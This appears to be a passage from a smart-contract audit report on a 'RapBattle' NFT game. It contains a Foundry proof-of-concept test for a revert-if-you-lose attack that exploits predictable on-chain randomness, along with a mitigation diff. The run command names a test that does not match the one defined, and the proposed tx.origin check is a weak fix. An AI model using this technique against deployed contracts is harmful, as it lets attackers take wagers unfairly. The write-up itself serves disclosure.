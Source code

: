 and here's the test i wrote for it to showcase the attack:

```javascript
    function testAttackerJoinsTheBattleAsSmartContractRevertsifheLosesBattleOtherwiseTakesThePrizeIfWon() public {
        // user mints himself an Rapper NFT and stakes it for 4 days to get 4 Cred tokens in return, to become the `defender`.
        vm.startPrank(user);

        oneShot.mintRapper();
        oneShot.approve(address(streets), 0);
        streets.stake(0);

        vm.warp(block.timestamp + 4 days);
        streets.unstake(0);
        assertEq(cred.balanceOf(user), 4);

        oneShot.approve(address(rapBattle), 0);
        cred.approve(address(rapBattle), 4);
        rapBattle.goOnStageOrBattle(0, 4);

        vm.stopPrank();

        // user mints himself an Rapper NFT and stakes it for 4 days to get 4 Cred tokens in return, to become the `challenger`.
        AttackerRevertsIfHeLoses attackerContract = new AttackerRevertsIfHeLoses(oneShot, cred, rapBattle, streets);
        uint256 tokenId = oneShot.getNextTokenId();
        attackerContract.getRapperNftAndStakeIt(tokenId, 4 days);
        // next line will revert if we lose the battle. otherwise we are the winner and gonna receive the `defenderBet` as Prize.
        // take a look at `attackerContract`, to see how `revertIfLostBetOtherwiseTakeThePrize()` function works.
        attackerContract.revertIfLostBetOtherwiseTakeThePrize(tokenId);
    }
```

you can run the test with following command:

```javascript
    forge test --match-test testSmartContractJoinBattleAsChallengerRevertsIfLosesIfWonTakesPrize -vvvv
```



**Recommended mitigation**

Implement a check to prevent smart contracts from participating in battles:

```diff
    function _battle(uint256 _tokenId, uint256 _credBet) internal {
        address _defender = defender;
        require(defenderBet == _credBet, "RapBattle: Bet amounts do not match");
+       require(tx.origin == msg.sender, "Smart contracts are not allowed");
        uint256 defenderRapperSkill = getRapperSkill(defenderTokenId);
        uint256 challengerRapperSkill = getRapperSkill(_tokenId);
        uint256 totalBattleSkill = defenderRapperSkill + challengerRapperSkill;
        uint256 totalPrize = defenderBet + _credBet;

        uint256 random = uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender))) % totalBattleSkill;

        // Reset the defender
        defender = address(0);
        // event Battle(address indexed challenger, uint256 tokenId, address indexed winner);
        
        emit Battle(msg.sender, _tokenId, random < defenderRapperSkill ? _defender : msg.sender);
```